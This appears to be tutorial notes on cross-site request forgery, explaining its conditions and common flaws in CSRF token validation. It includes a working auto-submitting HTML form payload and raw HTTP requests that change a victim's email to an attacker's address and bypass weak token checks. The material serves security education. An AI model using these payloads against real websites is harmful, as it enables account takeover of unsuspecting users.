 # CSRF Cross-site request forgery 

## What is CSRF?
CSRF (Cross-Site Request Forgery) is a type of security vulnerability where an attacker tricks a user into performing unintended actions on a website they’re logged into. For example, clicking a malicious link might cause you to transfer money or change account settings without realizing it. It works because the website trusts the user's logged-in session, even though the action wasn’t intentional.

## How does CSRF work?
CSRF attacks happen when three main conditions are met:  

1. **An important action**: The attacker wants to trick the user into doing something significant, like changing a password, transferring money, or modifying account settings.  

2. **Session cookies are used**: The website identifies the user based only on cookies stored in their browser. It doesn’t ask for extra verification for actions.  

3. **Predictable requests**: The attacker can guess the details of the request needed to perform the action, such as knowing how the website processes a password change.  

If these conditions exist, the attacker can trick a logged-in user into unknowingly sending a harmful request.

# # CSRF Example

## How CSRF Works

### Scenario
Suppose an application allows users to change their email address. A user performs this action by sending the following HTTP request:

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE

email=wiener@normal-user.com
```

### Conditions for CSRF

1. **Action of Interest**:
   The attacker wants to change the user's email address. This allows them to trigger a password reset and take full control of the user's account.

2. **Session Cookie Reliance**:
   The application identifies the user using a session cookie and has no other mechanisms, like CSRF tokens, to verify the request.

3. **Predictable Parameters**:
   The attacker knows the parameters needed for the request (e.g., the `email` field).

### Attacker's Exploit
The attacker creates a web page with the following HTML:

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

### Steps of the Attack

1. **Victim Visits the Malicious Page**:
   When the victim user visits the attacker's page, the malicious script automatically triggers an HTTP request to the vulnerable website.

2. **Session Cookie Sent**:
   If the victim is logged in, their browser includes their session cookie in the request (assuming SameSite cookies are not being used).

3. **Request Processed**:
   The vulnerable website treats the request as coming from the victim and changes their email address to the attacker's email.

## Common Flaws in CSRF Token Validation

### CSRF Token Validation Depends on Request Method
Some applications validate the CSRF token for `POST` requests but skip validation for `GET` requests. This allows attackers to bypass the validation by switching to the `GET` method:

```
GET /email/change?email=pwned@evil-user.net HTTP/1.1
Host: vulnerable-website.com
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```

### CSRF Token Validation Depends on Token Presence
Some applications validate the token if it is present but skip validation if the token is missing. Attackers can remove the token parameter to bypass validation:

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm

email=pwned@evil-user.net
```

### CSRF Token Not Tied to User Session
Some applications accept any valid token, even if it does not belong to the user making the request. Attackers can use their own account to obtain a valid token and feed it to the victim in a CSRF attack.

### CSRF Token Tied to a Non-Session Cookie

Sometimes, CSRF tokens are linked to a cookie that is different from the session cookie. This can happen when the application uses separate frameworks for session handling and CSRF protection. For example:

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

If attackers can find a way to set cookies in the victim’s browser (for example, through another application or subdomain), they can insert their own CSRF token and matching cookie to exploit the vulnerability.

---

### CSRF Token Simply Duplicated in a Cookie

In some cases, CSRF tokens are stored in both a request parameter and a cookie. During validation, the application just checks if these two values match, without keeping any server-side record of issued tokens. For example:

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

An attacker can simply create their own fake CSRF token, set a matching cookie in the victim’s browser, and carry out a CSRF attack without needing a valid token from the application.
